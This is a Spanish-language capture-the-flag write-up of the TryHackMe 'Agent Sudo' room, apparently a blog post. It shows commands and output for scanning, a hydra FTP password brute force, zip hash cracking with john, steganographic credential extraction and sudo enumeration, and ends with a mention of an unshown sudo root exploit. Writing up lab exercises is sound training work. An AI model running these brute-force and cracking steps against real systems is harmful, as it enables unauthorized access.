



TryHackMe - Agent Sudo

Contenido
| Titulo | Agent Sudo |
|---|---|
| Room | Agent Sudo |
| Info | You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. |
| Puntos | 3311 |
| Dificultad | Facil |
| Maker | Deskel |
NMAP
Escaneo de puertos tcp/udp, nmap nos muestra el puerto http (80), el puerto ssh (22) y el puerto ftp (21) abiertos.
# Nmap 7.80 scan initiated Tue Feb 4 21:35:26 2020 as: nmap -p- -sV -sC -T4 -o nmap_scan 10.10.235.45
Nmap scan report for 10.10.235.45
Host is up (0.20s latency).
Not shown: 65532 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| 256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_ 256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 4 21:43:52 2020 -- 1 IP address (1 host up) scanned in 506.11 seconds
HTTP
WHATWEB
Esca corriendo una pagina sobre apache 2.4.29.
root@aoiri:~/tryhackme/agentsudo# whatweb http://10.10.235.45
http://10.10.235.45 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.235.45], Title[Annoucement]
root@aoiri:~/tryhackme/agentsudo#
GOBUSTER
Utilizamos gobuster para busqueda de directorios y archivos que nos pudiesen servir.
root@aoiri:~/tryhackme/agentsudo# gobuster dir -u 10.10.235.45 -w /usr/share/wordlists/dirb/common_nofirst10.txt -x php,html,txt -t 15 -q
/index.php (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
HTTP Web
Al visitar la pagina encontramos un mensaje, en el cual nos mencionan el user-agent y que debemos de utilizar nuestro nombre en codigo para acceder.

Utilizamos ‘R’ en User-Agent y nos muestra un mensaje distinto. 
Utilizamos BURPSUITE para poder realizar distintas peticiones con el ‘User-Agent’ utilizando como payloads:
>>> import string
>>> print string.printable
0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
Encontramos que existe el Agente C, el contenido solo puede ser visto en nuestro navegador ya que nos redirige hacia otra pagina.

Agente C:
Nos muestra un mensaje que muestra el nombre del agente ‘chris’.

FTP
Para poder acceder al servicio de FTP utilizamos hydra para realizar fuerza bruta a la contraseña con el usuario chris.
root@aoiri:~/tryhackme/agentsudo# hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.235.45
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-02-04 22:13:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.235.45:21/
[STATUS] 240.00 tries/min, 240 tries in 00:01h, 14344159 to do in 996:08h, 16 active
[21][ftp] host: 10.10.235.45 login: chris password: *******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-02-04 22:14:56
Al acceder nos encontramos con varios archivos:
root@aoiri:~/tryhackme/agentsudo# ftp 10.10.235.45
Connected to 10.10.235.45.
220 (vsFTPd 3.0.3)
Name (10.10.235.45:root): chris
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 0 0 217 Oct 29 12:15 To_agentJ.txt
-rw-r--r-- 1 0 0 33143 Oct 29 12:22 cute-alien.jpg
-rw-r--r-- 1 0 0 34842 Oct 29 12:33 cutie.png
226 Directory send OK.
ftp> mget *
mget To_agentJ.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
226 Transfer complete.
217 bytes received in 0.00 secs (1.3526 MB/s)
mget cute-alien.jpg? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
226 Transfer complete.
33143 bytes received in 0.22 secs (145.3596 kB/s)
mget cutie.png? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
226 Transfer complete.
34842 bytes received in 0.35 secs (95.8564 kB/s)
ftp>
En el archivo de texto nos muestra un mensaje para el Agente J, en el que explica que la contraseña esta dentro de la imagen falsa.
root@aoiri:~/tryhackme/agentsudo# cat To_agentJ.txt
Dear agent J,
All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.
From,
Agent C

STEGO
Utilizamos binwalk para ver el contenido de las imagenes y vemos que la imagen PNG tiene un archivo de texto.
root@aoiri:~/tryhackme/agentsudo/tmp# binwalk cute-alien.jpg
DECIMAL HEXADECIMAL DESCRIPTION
--------------------------------------------------------------------------------
0 0x0 JPEG image data, JFIF standard 1.01
root@aoiri:~/tryhackme/agentsudo/tmp# binwalk cutie.png
DECIMAL HEXADECIMAL DESCRIPTION
--------------------------------------------------------------------------------
0 0x0 PNG image, 528 x 528, 8-bit colormap, non-interlaced
869 0x365 Zlib compressed data, best compression
34562 0x8702 Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820 0x8804 End of Zip archive, footer length: 22
root@aoiri:~/tryhackme/agentsudo/tmp#
Extraemos el contenido de la imagen con binwalk y encontramos un archivo comprimido que contiene el archivo de texto, utilizamos john the ripper para obtener la contraseña por fuerza bruta.
root@aoiri:~/tryhackme/agentsudo/tmp/_cutie.png.extracted# zip2john 8702.zip > hash_zip
ver 81.9 8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
root@aoiri:~/tryhackme/agentsudo/tmp/_cutie.png.extracted# cat hash_zip
8702.zip/To_agentR.txt:$zip2$*0*1*0*4673cae714579045*67aa*4e[... hash-here-dont-show-cuz-tryhackme-ban-me-:v-end ...]*$/zip2$:To_agentR.txt:8702.zip:8702.zip
root@aoiri:~/tryhackme/agentsudo/tmp/_cutie.png.extracted# john hash_zip
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 10 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
***** (8702.zip/To_agentR.txt)
1g 0:00:00:00 DONE 2/3 (2020-02-04 22:58) 1.052g/s 46303p/s 46303c/s 46303C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@aoiri:~/tryhackme/agentsudo/tmp/_cutie.png.extracted#
Extraemos los archivos del archivo zip:
root@aoiri:~/tryhackme/agentsudo/tmp/_cutie.png.extracted# 7z x 8702.zip
7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.utf8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i5-8250U CPU @ 1.60GHz (806EA),ASM,AES-NI)
Scanning the drive for archives:
1 file, 280 bytes (1 KiB)
Extracting archive: 8702.zip
--
Path = 8702.zip
Type = zip
Physical Size = 280
Enter password (will not be echoed): *****
Everything is Ok
Size: 86
Compressed: 280
root@aoiri:~/tryhackme/agentsudo/tmp/_cutie.png.extracted# ls
365 365.zlib 8702.zip hash_zip To_agentR.txt
Vemos un mensaje que nos muestra la contraseña de la que nos mencionaba la anterior nota:
root@aoiri:~/tryhackme/agentsudo/tmp/_cutie.png.extracted# cat To_agentR.txt
Agent C,
We need to send the picture to '*******' as soon as possible!
By,
Agent R
root@aoiri:~/tryhackme/agentsudo/tmp/_cutie.png.extracted#
Utilizamos la contraseña (decodificada en base64) para obtener los archivos de la imagen JPG:
root@aoiri:~/tryhackme/agentsudo/tmp# steghide extract -sf cute-alien.jpg
Enter passphrase:
wrote extracted data to "message.txt".
root@aoiri:~/tryhackme/agentsudo/tmp# cat message.txt
Hi james,
Glad you find this message. Your login password is ************
Don't ask me why the password look cheesy, ask agent R who set this password for you.
Your buddy,
chris
root@aoiri:~/tryhackme/agentsudo/tmp#
SSH - User
Ahora que tenemos las credenciales, las utilizamos con el servicio SSH de la maquina, obtenemos nuestra shell y nuestra flag user.txt.

PRIVILEGE ESCALATION
Hacemos una enumeracion sencilla con sudo -l para listar los comandos/archivos que podemos ejecutar sin contraseña y con privilegios root, vemos /bin/bash pero al intentar ejecutarlo con sudo no se ejecuta.
james@agent-sudo:~$ sudo -l -l
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User james may run the following commands on agent-sudo:
Sudoers entry:
RunAsUsers: ALL, !root
Commands:
/bin/bash
james@agent-sudo:~$ sudo /bin/bash
Sorry, user james is not allowed to execute '/bin/bash' as root on agent-sudo.
james@agent-sudo:~$
Buscamos una vulnerabilidad para sudo y vemos que existe un exploit con el cual podemos obtener acceso de superusuario.
Descargamos el exploit, lo ejecutamos, obtenemos nuestra shell y nuestra flag root.txt.
